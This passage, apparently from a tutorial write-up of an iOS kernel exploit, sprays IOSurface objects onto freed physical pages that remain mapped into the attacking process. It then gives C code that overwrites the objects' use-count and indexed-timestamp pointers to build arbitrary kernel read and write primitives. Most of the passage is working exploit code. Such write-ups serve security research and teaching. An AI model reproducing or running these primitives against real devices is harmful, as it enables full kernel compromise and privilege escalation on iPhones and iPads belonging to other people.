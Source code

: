 ```
                }
            }
        }
    }
    
sprayDone:
    for (int i = 0; i < nSurfaceIDs; i++) {
        if (surfaceIDs[i] == info.surface) continue;
        iosurface_release(client, surfaceIDs[i]);
    }
    free(surfaceIDs);
    
    return 0;
}
```

We continuously spray IOSurface objects in a loop until we find one of these objects on one of our freed physical pages. When one is found, we save the address and ID of this object for later use, and read the `receiver` field of the IOSurface object to retrieve our task structure address.

At this point, we have an IOSurface object in kernel memory that we can read from and write to from userspace, as the physical page it resides in is also mapped into our process. But how do we use this to get a kernel read/write primitive?

An IOSurface object has two useful fields. The first is a pointer to the 32-bit use count of the object and the second is a pointer to a 64-bit “indexed timestamp”. By calling the methods to get the use count and set the indexed timestamp, but also overwriting the pointers to these values, we can achieve an arbitrary 32-bit kernel read and an arbitrary 64-bit kernel write.

For the read, we overwrite the use count pointer (accounting for a 0x14 byte offset in the read) and then call the method to read the use count.

```
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
    uint64_t args[1] = {surfaceID};
    uint32_t size = 1;
    uint64_t out = 0;
    IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
    return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
    uint64_t orig = iosurface_get_use_count_pointer(info.object);
    iosurface_set_use_count_pointer(info.object, addr - 0x14); // Read is offset by 0x14
    uint32_t value = get_use_count(info.client, info.surface);
    iosurface_set_use_count_pointer(info.object, orig);
    return value;
}
```

For the write, we overwrite the indexed timestamp pointer and then call the method to set the indexed timestamp.

```
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
    uint64_t args[3] = {surfaceID, 0, value};
    IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
    uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
    iosurface_set_indexed_timestamp_pointer(info.object, addr);
    set_indexed_timestamp(info.client, info.surface, value);
    iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```
